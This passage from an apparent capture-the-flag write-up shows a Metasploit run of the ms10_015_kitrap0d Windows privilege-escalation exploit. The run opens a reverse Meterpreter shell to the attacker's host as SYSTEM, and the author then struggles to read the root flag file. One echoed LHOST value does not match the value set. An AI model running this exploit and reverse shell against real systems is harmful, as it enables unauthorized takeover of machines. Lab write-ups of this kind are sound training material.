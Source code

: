 ```
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.50.111   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost 10.10.14.36
lhost => 10.10.14.75
msf6 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

We get thrown straight into an administrator account:

```
[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Launching notepad to host the exploit...
[+] Process 3632 launched.
[*] Reflectively injecting the exploit DLL into 3632...
[*] Injecting exploit into 3632 ...
[*] Exploit injected. Injecting payload into 3632...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.129.82.146
[*] Meterpreter session 3 opened (10.10.14.36:4444 -> 10.129.82.146:49159) at 2020-11-30 16:37:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
c:\Windows\Temp
```

So now I just cd my way to the administrator's desktop and read the root. Except:

```
meterpreter > type root.txt
[-] Unknown command: type.
meterpreter > dir
Listing: c:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-17 19:16:53 -0400  desktop.ini
100444/r--r--r--  32    fil   2017-03-17 19:17:20 -0400  root.txt.txt

meterpreter > type root.txt.txt
[-] Unknown command: type.
meterpreter > file root.txt
[-] Unknown command: file.
meterpreter > more root.txt
[-] Unknown command: more.
meterpreter > more root.txt.txt
[-] Unknown command: more.
```
